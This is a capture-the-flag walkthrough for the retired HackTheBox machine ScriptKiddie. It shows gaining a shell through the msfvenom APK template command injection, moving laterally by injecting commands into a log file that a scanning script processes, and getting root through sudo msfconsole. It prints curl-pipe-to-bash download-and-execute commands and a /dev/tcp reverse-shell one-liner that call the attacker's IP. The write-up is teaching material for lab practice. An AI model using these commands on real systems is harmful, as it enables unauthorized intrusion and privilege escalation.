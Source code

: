# ScriptKiddie

This is the write-up for the box ScriptKiddie that got retired at the 5th June 2021.
My IP address was 10.10.14.9 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.226    scriptkiddie.htb
```

## Enumeration

Starting with a Nmap scan:

```
nmap -sC -sV -o nmap/scriptkiddie.nmap 10.10.10.226
```

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 3c:65:6b:c2:df:b9:9d:62:74:27:a7:b8:a9:d3:25:2c (RSA)
|   256 b9:a1:78:5d:3c:1b:25:e0:3c:ef:67:8d:71:d3:a3:ec (ECDSA)
|_  256 8b:cf:41:82:c6:ac:ef:91:80:37:7c:c9:45:11:e8:43 (ED25519)
5000/tcp open  http    Werkzeug httpd 0.16.1 (Python 3.8.5)
|_http-title: k1d'5 h4ck3r t00l5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Checking HTTP (Port 5000)

The webpage on port 5000 has the title _"k1d'5 h4ck3r t00l5"_ and hosts some hacking tools:

![Hacking Tools](scriptkiddie_web-1.png)

It uses **Nmap**, **Msfvenom** and **Searchsploit** in the background.
After testing for web vulnerabilities in all tools, it may possible to exploit a publicly known vulnerability in **Msfvenom** as it is possible to upload a template file:
```
searchsploit msfvenom

Metasploit Framework 6.0.11 - msfvenom APK template command injection
```

Changing the payload in the script to a reverse shell command:
```python
# Change me
payload = 'curl 10.10.14.9:8000/shell.sh | bash'
# (...)
```

Executing the script to create a malicious APK file:
```
python3 49491.py
```
```
[+] Done! apkfile is at /tmp/tmpzxxkai7n/evil.apk
Do: msfvenom -x /tmp/tmpzxxkai7n/evil.apk -p android/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -o /dev/null
```

Creating the shell script that will be executed from the **Msfvenom template**:
```
bash -i >& /dev/tcp/10.10.14.9/9001 0>&1
```

Uploading the APK file with the feature on the website:

![Uploading APK file](scriptkiddie_web-2.png)

After _generating_ the payload, it will download _shell.sh_ to execute it and the listener on my IP and port 9001 starts a reverse shell as the user _kid_.

## Privilege Escalation

In the home directory of _kid_ is a file called _/home/kid/logs/hackers_ with no contents.
This file is used on the web application in _/home/kid/html/app.py_ in the _searchsploit_ function:
```python
# (...)
def searchsploit(text, srcip):
    if regex_alphanum.match(text):
        result = subprocess.check_output(['searchsploit', '--color', text])
        return render_template('index.html', searchsploit=result.decode('UTF-8', 'ignore'))
    else:
        with open('/home/kid/logs/hackers', 'a') as f:
            f.write(f'[{datetime.datetime.now()}] {srcip}\n')
        return render_template('index.html', sserror="stop hacking me - well hack you back")
# (...)
```

It gets an entry, when the **Searchsploit** feature does not contain any alphanumeric characters:
```
regex_alphanum = re.compile(r'^[A-Za-z0-9 \.]+$')
```

Sending special characters to the **Searchsploit** feature while checking the file with `tail -f`:
```
tail -f logs/hackers

[2022-04-24 15:10:32.866897] 10.10.14.9
tail: ../logs/hackers: file truncated
```

The file gets truncated after the entry, so lets check why this happens with [psyp](https://github.com/DominicBreuker/pspy):
```
wget 10.10.14.9:8000/pspy64s
chmod +x pspy64s

./pspy64s
```

After sending special characters, it spawns processes that execute _/home/pwn/scanlosers.sh_ and does a port scan on our client:
```
CMD: UID=1001 PID=10768  | /bin/bash /home/pwn/scanlosers.sh
CMD: UID=1001 PID=10775  | sh -c nmap --top-ports 10 -oN recon/10.10.14.9.nmap 10.10.14.9 2>&1 >/dev/null
```

This user has read permissions for the bash script _/home/pwn/scanlosers.sh_:
```bash
log=/home/kid/logs/hackers

cd /home/pwn/
cat $log | cut -d' ' -f3- | sort -u | while read ip; do
    sh -c "nmap --top-ports 10 -oN recon/${ip}.nmap ${ip} 2>&1 >/dev/null" &
done

if [[ $(wc -l < $log) -gt 0 ]]; then echo -n > $log; fi
```

The script reads the _hackers_ file and `cuts` out everything before the third field which is the IP address.

Testing command injection on the third field with a `curl` command:
```
echo 'abc def ;curl 10.10.14.9:9001 #' >> logs/hackers
```

The listener on my IP and port 9001 gets a response back, so the command injection works and the reverse shell script can be used:
```
echo 'abc def ;curl 10.10.14.9:8000/shell.sh | bash #' >> logs/hackers
```

After sending the command, it will execute _shell.sh_ and the listener on my IP and port 9001 starts a reverse shell as the user _pwn_.

### Privilege Escalation to root

The user _pwn_ is able to run **Msfconsole** with root permissions:
```
sudo -l

User pwn may run the following commands on scriptkiddie:
    (root) NOPASSWD: /opt/metasploit-framework-6.0.9/msfconsole
```

Starting the **Metasploit Console**:
```
sudo /opt/metasploit-framework-6.0.9/msfconsole
```

It is possible to run local commands from `msfconsole` with the executed privileges:
```
msf6 > /bin/bash
[*] exec: /bin/bash

root@scriptkiddie:/home/pwn# whoami
root
```

The command `bash` will start a shell as root!

